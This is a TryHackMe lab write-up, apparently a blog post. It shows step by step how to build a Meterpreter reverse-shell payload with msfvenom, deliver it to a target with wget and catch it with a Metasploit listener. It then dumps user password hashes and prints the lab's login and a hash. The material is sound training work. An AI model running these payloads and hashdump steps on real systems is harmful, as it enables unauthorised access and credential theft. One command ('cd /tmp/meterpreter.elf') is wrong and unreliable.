 ```yaml
---
title: "An Exercise in Metasploit"
excerpt: A short explanation of how to set a meterpreter shell to obtain password hashes of users.
date: 2025-09-21
---
```


This is task 6 in the room *Metasploit: Exploitation* on TryHackMe. The exercise shows nicely why the Metasploit framework is so powerful: essentially we create a payload through a single command and execute it on the target, providing us with a stable reverse shell and root privileges.

We are given login credentials of one user, namely

```text
user: murphy
password: 1q2w3e4r
```

The goal is to get a meterpreter shell running on the target machine, so we can dump the password hashes of all users at the end of the task. 

First, we generate a Linux Meterpreter payload on our local (attacker) machine as follows:

```text
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f elf -o meterpreter.elf
```

The individual constituents of the above command are explained below:
- `msfvenom`: A command-line utility that is part of the Metasploit Framework. Its main job is to generate and encode payloads.
- `-p`: The "payload" option.
- `linux/x64/meterpreter/reverse_tcp`: The target OS is Linux with 64-bit architecture. The actual payload, `meterpreter`, is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code. It is typically deployed using in-memory DLL injection to reside entirely in memory.
- `reverse_tcp`: The payload will provide us with a reverse shell, i.e. an outbound TCP connection back to the attacker's machine.
- `LHOST`: **L**istening **Host**. The IP address of the attacker's machine where the payload should connect back to.
- `LPORT`: **L**istening **Port**. The port on the attacker's machine that will be listening for the incoming connection. Here, `4444` is just set as an example.
- `-f elf`: Specifies the **f**ormat to be of type `elf`. The .elf format is comparable to the .exe format in Windows.
- `-o meterpreter.elf`: We simply name the **o**utput `meterpreter.elf`.

Next, we make sure that the payload is executable:

```text
chmod +x meterpreter.elf
```

In order to transfer the payload to the target, we use a Python web server, since the user `murphy` might not have sufficiently elevated privileges for our task:

```text
python3 -m http.server 9000
```

After ssh-ing onto the target as user `murphy`, we fetch the payload, save it in `/tmp` and make sure it is executable, as seen in the next command. Notice that in a real-world (malicious/unauthorized) setting, this would have to be executed by means of phishing/social-engineering etc. In this controlled environment it is straightforward.

```text
wget http://<Your_IP>:9000/meterpreter.elf -O /tmp/meterpreter.elf
chmod +x /tmp/meterpreter.elf
cd /tmp/meterpreter.elf
```

Back on the attacker machine, we establish a listener, similar to a standard netcat-listener:

```text
msfconsole -q                                   # Start Metasploit interface
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <Your_IP>                             # Same IP as in payload
set LPORT 4444                                  # Same port as in payload
exploit
```

Now for the moment of truth. We run the executable on the target machine with the line

```text
./meterpreter.elf
```

If all goes well, this should just keep running in the CLI of the target and we should see the following output in out local attacker CLI, where we just started the listener:

```text
[*] Meterpreter session 1 opened (<Your_IP>:4444 -> <Target_IP>:<Target_Port>)
meterpreter >
```

We now have a stable reverse shell connection. Check privileges with `getuid` or `whoami`. To dump all hashes, we can use the `post/linux/gather/hashdump` module, but we first need to background the current session. Finally, we run the exploit. Thus, we run the following commands:

```text
meterpreter > background        # Send session to background
use post/linux/gather/hashdump  # This was also the hint given by TryHackMe
set SESSION <ID>                # Replace <ID> with your session number
run
```

We find the password hash of the other user (not `murphy`) to be `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`.






